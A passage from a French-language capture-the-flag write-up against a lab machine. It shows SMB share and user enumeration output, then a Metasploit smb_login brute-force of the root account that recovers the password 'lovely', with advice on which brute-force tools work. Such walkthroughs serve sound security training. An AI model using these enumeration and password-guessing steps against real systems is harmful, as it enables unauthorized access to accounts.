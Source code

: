 ```python
            break

        if i % 5000 == 0:
            print("Status:", i)
```

Sans résultats :'(   

En supposant que le code source de ce service est disponible sous la racine web j'ai cherché des fichiers avec des suffixes py, c, pl... nope.  

Elegance
--------

Côté SMB on peut compter sur Metasploit ou enum4linux pour l'énumération. On voit bien un partage *scripts* mais on ne dispose pas d'accès :  

```plain
[+] Attempting to map shares on 10.1.1.12
//10.1.1.12/scripts Mapping: DENIED, Listing: N/A
//10.1.1.12/IPC$    [E] Can't understand response:
```

Il semble aussi qu'il y ait un utilisateur *tom* sur le système :  

```plain
 ====================================================================
|    Users on 10.1.1.12 via RID cycling (RIDS: 500-550,1000-1050)    |
 ====================================================================
[I] Found new SID: S-1-22-2
[I] Found new SID: S-1-5-21-1573118214-49521899-4168781395
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1001 Unix User\tom (Local User)
```

Là encore toutes les tentatives de brute-forcer ce compte en SSH ou SMB n'ont pas abouties :|   

Il fallait finalement se mettre à brute-forcer le compte SMB de root. Mais là où c'était réellement frustrant c'est que Hydra, Ncrack ainsi que le script NSE de Nmap ne sont pas parvenus à voir l'authentification réussie quand elle avait lieu :-/   

En bref pour du brute-force SMB privilégiez Metasploit ou Medusa :  

```plain
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.1.1.12:445         - 10.1.1.12:445 - Starting SMB login bruteforce
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:root',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:123456',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:12345',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:123456789',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:password',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:iloveyou',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:princess',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:1234567',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:rockyou',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:12345678',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:abc123',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:nicole',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:daniel',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:babygirl',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:monkey',
[+] 10.1.1.12:445         - 10.1.1.12:445 - Success: '.\root:lovely'
[*] 10.1.1.12:445         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```